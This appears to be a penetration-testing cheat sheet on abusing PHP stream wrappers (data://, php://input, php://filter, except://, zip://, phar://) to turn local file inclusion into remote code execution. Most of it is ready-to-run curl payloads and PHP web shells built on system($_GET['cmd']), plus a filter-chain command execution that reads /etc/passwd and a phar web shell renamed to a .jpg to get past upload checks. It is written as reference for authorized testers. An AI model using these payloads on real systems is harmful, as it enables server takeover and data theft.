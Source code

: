# PHP wrappers and streams

<details>

<summary>data://</summary>

The attribute `allow_url_include` must be set. This configuration can be checked in the `php.ini` file.

{% code overflow="wrap" %}
```bash
# Shell in base64 encoding
echo "<?php system($_GET['cmd']); ?>" | base64

# Accessing the log file via LFI
curl --user-agent "PENTEST" "$URL/?parameter=data://text/plain;base64,$SHELL_BASE64&cmd=id"
```
{% endcode %}

</details>

<details>

<summary>php://input</summary>

The attribute `allow_url_include` should be set. This configuration can be checked in the `php.ini` file.

{% code overflow="wrap" %}
```bash
# Testers should make sure to change the $URL
curl --user-agent "PENTEST" -s -X POST --data "<?php system('id'); ?>" "$URL?parameter=php://input"
```
{% endcode %}

</details>

<details>

<summary>php://filter</summary>

The `filter` wrapper doesn't require the `allow_url_include` to be set. This works on default PHP configuration `allow_url_include=off`.

{% code overflow="wrap" %}
```bash
# Testers should make sure to change the $URL, $FILTERS with the chaining that generates their payload and $FILE with the path to the file they can read.
curl --user-agent "PENTEST" "$URL?parameter=php://filter/$FILTERS/resource=$FILE"
```
{% endcode %}

The [php\_filter\_chain\_generator.py](https://github.com/synacktiv/php\_filter\_chain\_generator/blob/main/php\_filter\_chain\_generator.py) script (Python3) implements the generation of the PHP filters chaining.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># Example: generate &#x3C;?=`$_GET[cmd]`;;?> (base64 value: PD89YCRfR0VUW2NtZF1gOzs/Pg) using /etc/passwd file to run whoami command on the target.
<strong>
</strong><strong># Generate the payload 
</strong>python3 php_filter_chain_generator.py --chain '&#x3C;?=`$_GET[cmd]`;;?>'

# Fill variables
FILTERS="convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|[...]|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode"
FILE="/etc/passwd"

# Get RCE on the target
curl --user-agent "PENTEST" "$URL?parameter=php://filter/$FILTERS/resource=$FILE&#x26;cmd=whoami"
</code></pre>

Finding a valid path to a file on the target is not required. PHP wrappers like `php://temp` can be used instead.

The research article "[PHP filters chain: What is it and how to use it](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)" from Synacktiv, and [the original writeup](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d), go into the details of that technique.

</details>

<details>

<summary>except://</summary>

The `except` wrapper doesn't required the `allow_url_include` configuration, the `except` extension is required instead.

```bash
curl --user-agent "PENTEST" -s "$URL/?parameter=except://id"
```

</details>

<details>

<summary>zip://</summary>

The prerequisite for this method is to be able to [upload a file](../../../../web-services/attacks-on-inputs/unrestricted-file-upload.md).

{% code overflow="wrap" %}
```bash
echo "<?php system($_GET['cmd']); ?>" > payload.php
zip payload.zip payload.php

# Accessing the log file via LFI (the # identifier is URL-encoded)
curl --user-agent "PENTEST" "$URL/?parameter=zip://payload.zip%23payload.php&cmd=id"
```
{% endcode %}

</details>

<details>

<summary>phar://</summary>

The prerequisite for this method is to be able to [upload a file](../../../../web-services/attacks-on-inputs/unrestricted-file-upload.md).

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

The tester need to compile this script into a `.phar` file that when called would write a shell called `shell.txt` .

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now the tester has a `phar` file named `shell.jpg` and he can trigger it through the `phar://` wrapper.

{% code overflow="wrap" %}
```bash
curl --user-agent "PENTEST" "$URL/?parameter=phar://./shell.jpg%2Fshell.txt&cmd=id"
```
{% endcode %}

</details>
